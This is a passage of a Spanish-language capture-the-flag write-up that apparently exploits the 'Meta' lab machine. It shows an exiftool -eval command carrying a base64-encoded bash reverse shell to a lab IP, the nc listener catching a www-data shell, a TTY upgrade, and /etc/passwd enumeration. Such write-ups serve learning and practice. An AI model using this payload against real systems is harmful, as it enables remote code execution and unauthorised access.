 ```bash
❯ exiftool -config eval.config runme.jpg -eval='system("echo 'YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMi80NDMgMD4mMScK' |  base64 -d | bash")'
    1 image files updated
```

Ahora subimos la imagen

Y al darla a **Upload** ganamos acceso ala maquina 

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.140] 45196
bash: cannot set terminal process group (640): Inappropriate ioctl for device
bash: no job control in this shell
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ whoami
whoami
www-data
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ 
```

Ahora hacemos esto 

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.140] 45196
bash: cannot set terminal process group (640): Inappropriate ioctl for device
bash: no job control in this shell
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ whoami
whoami
www-data
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
ENTER
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ export TERM=xterm
```

Ahora nos tenemos que convertir en **Thomas** 

```bash
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ cat /etc/passwd | grep sh
root:x:0:0:root:/root:/bin/bash
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
thomas:x:1000:1000:thomas,,,:/home/thomas:/bin/bash
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ 
```

Estamos ante un **Debian Buster** 
